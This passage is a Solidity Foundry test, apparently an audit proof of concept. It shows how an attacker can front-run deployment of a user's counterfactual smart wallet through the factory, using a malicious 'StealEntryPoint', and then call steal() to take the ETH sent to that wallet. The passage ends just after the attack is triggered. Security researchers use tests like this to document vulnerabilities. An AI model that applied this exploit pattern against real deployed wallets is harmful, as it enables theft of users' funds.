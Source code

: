     contract AuditTest is Test {
        bytes32 internal constant ACCOUNT_TX_TYPEHASH = 0xc2595443c361a1f264c73470b9410fd67ac953ebd1a3ae63a2f514f3f014cf07;
    
        uint256 bobPrivateKey = 0x123;
        uint256 attackerPrivateKey = 0x456;
    
        address deployer;
        address bob;
        address attacker;
        address entrypoint;
        address handler;
    
        SmartAccount public implementation;
        SmartAccountFactory public factory;
        MockToken public token;
    
        function setUp() public {
            deployer = makeAddr("deployer");
            bob = vm.addr(bobPrivateKey);
            attacker = vm.addr(attackerPrivateKey);
            entrypoint = makeAddr("entrypoint");
            handler = makeAddr("handler");
    
            vm.label(deployer, "deployer");
            vm.label(bob, "bob");
            vm.label(attacker, "attacker");
    
            vm.startPrank(deployer);
            implementation = new SmartAccount();
            factory = new SmartAccountFactory(address(implementation));
            token = new MockToken();
            vm.stopPrank();
        }
        
        function test_SmartAccountFactory_StealCounterfactualWallet() public {
            uint256 index = 0;
            address counterfactualWallet = factory.getAddressForCounterfactualWallet(bob, index);
            // Simulate Bob sends 1 ETH to the wallet
            uint256 amount = 1 ether;
            vm.deal(counterfactualWallet, amount);
    
            // Attacker deploys counterfactual wallet with a custom entrypoint (StealEntryPoint)
            vm.startPrank(attacker);
    
            StealEntryPoint stealer = new StealEntryPoint();
    
            address proxy = factory.deployCounterFactualWallet(bob, address(stealer), handler, index);
            SmartAccount wallet = SmartAccount(payable(proxy));
    
            // address is the same
            assertEq(address(wallet), counterfactualWallet);
    
            // trigger attack
            stealer.steal(wallet);
    
            vm.stopPrank();
    